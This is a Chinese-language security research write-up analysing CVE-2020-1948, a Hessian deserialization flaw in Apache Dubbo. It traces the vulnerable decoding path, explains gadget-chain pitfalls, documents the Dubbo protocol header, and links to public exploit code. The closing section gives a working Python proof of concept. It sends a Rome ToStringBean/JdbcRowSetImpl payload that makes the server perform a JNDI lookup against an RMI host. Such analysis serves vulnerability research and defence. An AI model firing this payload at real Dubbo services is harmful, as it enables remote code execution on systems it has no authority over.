# CVE-2020-1948 Apache Dubbo Provider dubbo协议反序列化漏洞

## 概述

### 影响版本

2.5.x、[2.6.0, 2.6.7]、[2.7.0, 2.7.6]

## 复现分析

`org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation` 是 Dubbo 框架中的一个类，将 Dubbo 协议中的请求体解码为可执行的 `RpcInvocation` 对象，`RpcInvocation` 表示一个 RPC 调用的参数和信息。具体的解码过程在 `decode()` 方法，跟进一下。



方法进来后首先是对 dubbo 传入的内容进行提取，可以看到通过 `CodecSupport.getSerialization()` 定义了本次请求是对 Hessian 的反序列化，所以会调用 `org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectInput#readObject()` 来处理



继续跟到 Hessian 反序列化解析，将调用 `com.alibaba.com.caucho.hessian.io.Hessian2Input#readObject()` 方法，计算字节对应的标记 tag，执行对应的解析方法。




当 tag 为 H 时通过 `com.alibaba.com.caucho.hessian.io.MapDeserializer#readMap()` 处理数据



而在进入 `com.alibaba.com.caucho.hessian.io.MapDeserializer#doReadMap()` 读取数据时，调用了 HashMap 的 put() 方法，之后就是通过触发 Map 的 `hashcode()` 方法实现 RCE 了。



到这为止似乎很合理，但是为什么不能通过 `TiedMapEntry.hashCode()` 方法来触发 CC 链的利用？所以还得再继续跟一下，以 CC6 为例我们可以看到进入 `TiedMapEntry.hashCode()` 方法时，LazyMap 被替换为 HashMap。



所以一步步跟进 `com.alibaba.com.caucho.hessian.io.MapDeserializer#doReadMap()` 对于 `TiedMapEntry` 的处理，对于 Map 类型的反序列化通过 `com.alibaba.com.caucho.hessian.io.JavaDeserializer` 处理 key 、value 值。





之后进入 `com.alibaba.com.caucho.hessian.io.MapDeserializer#readMap()` 处理 LazyMap时，由于 `_type` 值是通过获取 `TiedMapEntry` 的 Field 得到的所以是 `java.util.Map`





所以最终被统一处理为 `java.lang.HashMap`



## consumer的坑

在 consumer 发起请求后因为 demoService 本身为一个动态代理对象 `org.apache.dubbo.rpc.proxy.InvokerInvocationHandler` ，最终会触发到 `org.apache.dubbo.rpc.RpcInvocation#toString()` 执行调用链。



## todo 调用链

Rome、XBean、Resin、SpringPartiallyComparableAdvisorHolder、SpringAbstractBeanFactoryPointcutAdvisor

http://moonflower.fun/index.php/2022/05/28/336/

http://www.bmth666.cn/2023/03/07/%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%AE%9E%E6%88%98%E7%9A%84hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://github.com/threedr3am/dubbo-exp/blob/master/src/main/java/com/threedr3am/exp/dubbo/payload/hessian/ResinPoc.java

pop 链 https://blog.csdn.net/Xxy605/article/details/125925629

### 原生

https://y4er.com/posts/nacos-hessian-rce/

https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2022/hessian-onlyJdk/writeup


## Hessian 流量

Hessian（也称为Hessian Binary Web Service Protocol）是一种用于实现二进制Web服务协议的轻量级协议。它允许在Java应用程序之间通过二进制格式进行远程调用，即通过序列化和反序列化 Java 对象实现通信。



抓包后看到发送了一段 dabbc2 开头的数据，表示 Hessian 的协议头，之后的 053223.....   就是在调试 `org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation#decode()` 方法时传入的数据流。

具体的协议内容可以参照 [官网](https://dubbo.apache.org/zh-cn/blog/2018/10/05/dubbo-%E5%8D%8F%E8%AE%AE%E8%AF%A6%E8%A7%A3/)

| 偏移量(Bit) | 字段         | 取值                                                      |
| ----------- | ------------ | --------------------------------------------------------- |
| 0 ~ 7       | 魔数高位     | 0xda00                                                    |
| 8 ~ 15      | 魔数低位     | 0xbb                                                      |
| 16          | 数据包类型   | 0 - Response, 1 - Request                                 |
| 17          | 调用方式     | 仅在第16位被设为1的情况下有效，0 - 单向调用，1 - 双向调用 |
| 18          | 事件标识     | 0 - 当前数据包是请求或响应包，1 - 当前数据包是心跳包      |
| 19 ~ 23     | 序列化器编号 | 2 - Hessian2Serialization                                 |
|             |              | 3 - JavaSerialization                                     |
|             |              | 4 - CompactedJavaSerialization                            |
|             |              | 6 - FastJsonSerialization                                 |
|             |              | 7 - NativeJavaSerialization                               |
|             |              | 8 - KryoSerialization                                     |
|             |              | 9 - FstSerialization                                      |
| 24 ~ 31     | 状态         | 20 - OK                                                   |
|             |              | 30 - CLIENT_TIMEOUT                                       |
|             |              | 31 - SERVER_TIMEOUT                                       |
|             |              | 40 - BAD_REQUEST                                          |
|             |              | 50 - BAD_RESPONSE                                         |
| 32 ~ 95     | 请求编号     | 共8字节，运行时生成                                       |
| 96 ~ 127    | 消息体长度   | 运行时计算                                                |

Hessian 是基于 Field 的序列化机制，所以也可以直接用其他语言构造请求。以 python 为例如下，需要注意的是这个库没法修改发送时的 service_version 参数默认为 1.0，服务器对不上会抛出异常 Not found exported service 。因为是分析 java 洞，所以后面还是尽量用 Java 来构造。

```python
from dubbo.codec.hessian2 import Decoder, new_object
from dubbo.client import DubboClient

ip = "127.0.0.1"
port = 12345
jndi = "rmi://127.0.0.1:1099/j5yr3d"

client = DubboClient(ip, port)

JdbcRowSetImpl = new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource=jndi,
    strMatchColumns=["foo"]
)
JdbcRowSetImplClass = new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
)
toStringBean = new_object(
    'com.rometools.rome.feed.impl.ToStringBean',
    beanClass=JdbcRowSetImplClass,
    obj=JdbcRowSetImpl
)

resp = client.send_request_and_return_response(
    service_name='org.example.api.DemoService',
    method_name='sayObject',
    args=[toStringBean])

print(resp)
```
